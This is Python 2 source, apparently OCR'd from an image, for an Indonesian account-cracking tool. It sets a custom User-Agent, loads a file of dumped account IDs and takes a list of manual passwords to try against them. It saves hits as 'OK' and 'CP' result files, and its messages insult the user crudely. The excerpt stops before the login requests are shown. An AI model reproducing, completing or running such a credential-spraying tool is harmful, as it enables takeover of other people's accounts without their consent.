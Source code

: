
# User Agent baru
def yo_ndak_tau_ko_tanya_saia():
    os.system('rm -rf YNTKTS.txt')
    print '\n %s(%s•%s) notice me: cari User Agent di google chrome.'%(N,O,N)
    print ' (%s×%s) ketik User Agent atau My User Agent....\n'%(M,N)
    anjng = raw_input(' [%s?%s] Masukan User Agent :%s '%(O,N,H))
    if anjng == '':
        print '\n %s[%s×%s] Gak boleh kosong Kentod'%(N,M,N);yo_ndak_tau_ko_tanya_saia()
    try:
        open('YNTKTS.txt', 'w').write(anjng);time.sleep(2)
        jalan('\n %s[%s✓%s] berhasil mengganti user agent...'%(N,H,N))
        raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()
    except:pass


# Cek User Agent
def check_yntkts():
    try:
        user_agent = open('YNTKTS.txt', 'r').read()
    except IOError:
    	user_agent = '%s-'%(M)
    except: pass
    print '\n %s[%s+%s] User Agent anda : %s%s'%(N,O,N,H,user_agent)
    raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()


# mulai ngecrot awokawokawokkawok
class __crack__:

    def __init__(self):
        self.id = []

    def plerr(self):
        try:
            self.apk = raw_input('\n [%s?%s] masukan file : '%(O,N))
            self.id = open(self.apk).read().splitlines()
            print '\n [%s+%s] total id -> %s%s%s' %(O,N,M,len(self.id),N)
        except:
            print '\n %s[%s×%s] File [%s%s%s] tidak ada, dump id dulu lah tolol!'%(N,M,N,M,self.apk,N);time.sleep(3);moch_yayan()
        ___yayanganteng___ = raw_input(' [%s?%s] apakah anda ingin menggunakan kata sandi manual? [Y/t]: '%(O,N))
        if ___yayanganteng___ in ('Y', 'y'):
            print '\n %s[%s!%s] gunakan , (koma) untuk pemisah contoh : sandi123,sandi12345,dll. setiap kata minimal 6 karakter atau lebih'%(N,M,N)
            while True:
                pwek = raw_input('\n [%s?%s] masukan kata sandi : '%(O,N))
                print ' [*] crack dengan sandi -> [ %s%s%s ]' % (M, pwek, N)
                if pwek == '':
                    print '\n %s[%s×%s] jangan kosong bro kata sandi nya'%(N,M,N)
                elif len(pwek)<=5:
                    print '\n %s[%s×%s] kata sandi minimal 6 karakter'%(N,M,N)
                else:
                    def __yan__(ysc=None): # ycs => Yayan sayang Cindy:3
                        cin = raw_input('\n [*] method : ')
                        if cin == '':
                            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__yan__()
                        elif cin == '1':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)